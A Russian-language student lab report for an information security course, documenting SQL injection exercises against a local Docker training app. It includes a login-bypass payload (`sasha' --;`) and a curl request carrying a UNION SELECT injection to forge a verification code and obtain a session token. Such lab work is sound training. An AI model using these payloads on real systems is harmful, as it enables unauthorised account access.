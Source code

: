 # Специалист по информационной безопасности: расширенный курс
## Модуль 4. Современная разработка ПО
### Желобанов Егор SIB-48

# Домашнее задание к занятию «4.6. SQL и транзакции»

Подготовил файлы для развертывания системы:

* [docker-compose.yml](assets/docker-compose.yml)
* [docker-entrypoint-initdb.d/init.sql](assets/docker-entrypoint-initdb.d/init.sql)

И расположил их в каталоге `Work/SQL` в виртуальной машине Kali в соответствии с описанием:

![](assets/1_tree.jpg)

### Задание 1. «Логин и пароль»

Развернул контейнер, и в браузере виртуальной машины перешел по адресу `http://localhost:8888/`, и увидел окно авторизации системы:

![](assets/2_login.jpg)

Зная, что в системе есть логин `sasha`, вводим логин `sasha' --;` и любой пароль, я ввел `123123`:

![](assets/3_login.jpg)

И попал на следующее окно:

![](assets/4_login.jpg)

### Задание 2. «Код подтверждения»*

Следуя подсказке, составил запрос на второго пользователя Мария, который указан у нас в файле [init.sql](assets/docker-entrypoint-initdb.d/init.sql),
подставив логин `masha` и код подтверждения `1234`, получился вот такой запрос:

```bash
curl -v "http://localhost:8888/api/auth/verification" -H 'Content-Type:application/json' -d "{\"login\":\"masha' union select null, 'masha', '1234', null, null -- \", \"code\":\"1234\"}"
```

В результате выполнения этого запроса, был получен положительный ответ от сервера:

![](assets/5_token.jpg)

Полученный токен в результате выполнения этого задания:

`{"token":"a184bbdd609c59dc91e0bd59c49bca04dbad035aba8ba85e06a6097c3fe648d5e2194f7abf84b3b50871325f0c3040deb6faa7d3b4c67c60b0ad48caa8331c0e11d771e4f1d330266ecebc737dbd42742615c2da6bae2984ef3b9d5fcef8eec8f431a1c3e6032639e3257a4ef707eb2a5596d7d231215ab3198fa1d2bc923308"}`
